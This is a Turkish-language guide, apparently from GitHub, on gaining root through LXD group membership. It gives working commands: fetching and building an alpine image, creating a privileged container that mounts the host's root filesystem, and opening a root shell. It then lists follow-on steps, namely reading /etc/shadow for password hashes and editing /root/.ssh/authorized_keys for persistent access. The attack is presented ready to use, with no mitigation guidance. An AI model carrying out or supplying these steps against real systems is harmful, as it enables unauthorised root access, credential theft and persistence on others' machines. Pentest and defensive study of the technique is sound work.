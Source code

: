 ### LXD Privilege Escalation (Yetki Yükseltme) Rehberi

LXD, konteyner yönetimi için kullanılan bir araçtır. Sistemlerde yanlış yapılandırılmış LXD izinleri, saldırganların yetkilerini yükseltmesi için bir fırsat sunabilir. Bu rehberde, LXD’yi kullanarak yetki yükseltmenin nasıl gerçekleştirileceğini adım adım anlatacağız.

---

#### 1. **LXD’yi Tanıma**
LXD, konteyner tabanlı bir sanallaştırma çözümüdür. Sistem üzerinde bir kullanıcı LXD grubunun bir üyesiyse, konteynerler üzerinden root yetkisi kazanabilir. Bunu anlamak için şu komutu kullanabilirsiniz:
```bash
groups
```
Eğer `lxd` grubunda olduğunuzu görüyorsanız, bu grup üyeliği yetki yükseltme için kullanılabilir.

---

#### 2. **LXD Grubu Üyeliğini Kontrol Etme**
Aşağıdaki komutla kullanıcıların LXD grubuna üye olup olmadığını kontrol edebilirsiniz:
```bash
id
```
Örnek çıktı:
```
uid=1001(ahmet) gid=1001(ahmet) groups=1001(ahmet),110(lxd)
```
Bu çıktı, kullanıcının `lxd` grubunun bir üyesi olduğunu gösterir.

---

#### 3. **Yetki Yükseltme için Gereken Adımlar**

##### Adım 1: **Gerekli Araçları ve İmajları İndirin**
Yetki yükseltmek için bir LXD imajına ihtiyacınız var. Kali Linux gibi sistemlerde “alpine” imajı kullanılabilir.

1. Alpine imajını indirin:
```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/alpine-builder
chmod +x alpine-builder
./alpine-builder
```
Bu işlem sonunda bir `alpine.tar.gz` dosyası oluşturulur.

##### Adım 2: **Kendi İmajınızı Yükleyin**
LXD ortamına indirdiğiniz imajı ekleyin:
```bash
lxc image import ./alpine.tar.gz --alias myimage
lxc image list
```
Bu komutlar, `myimage` adlı bir konteyner imajını oluşturacaktır.

##### Adım 3: **Konteyner Oluşturun ve Çalıştırın**
Yeni bir konteyner oluşturup çalıştırın:
```bash
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
```
Bu adımlarla konteyner, host dosya sistemine erişim sağlayacak şekilde yapılandırılmış olur.

##### Adım 4: **Konteyner’den Root Shell Elde Etme**
Konteynere bağlanarak root shell elde edebilirsiniz:
```bash
lxc exec mycontainer /bin/sh
```
Konteynerden host sisteminin kök dizinine erişmek için:
```bash
cd /mnt/root
```
Buradan sonra hassas dosyaları okuyabilir veya değiştirebilirsiniz.

---

#### 4. **Saldırı Senaryosu**
Bir saldırganın yukarıdaki adımları izleyerek neler yapabileceği:
1. `/etc/shadow` dosyasını okuyarak hash’leri ele geçirme.
2. `/root/.ssh/authorized_keys` dosyasını düzenleyerek kalıcı erişim sağlama.
3. Sistemdeki önemli yapılandırma dosyalarını değiştirme.

---


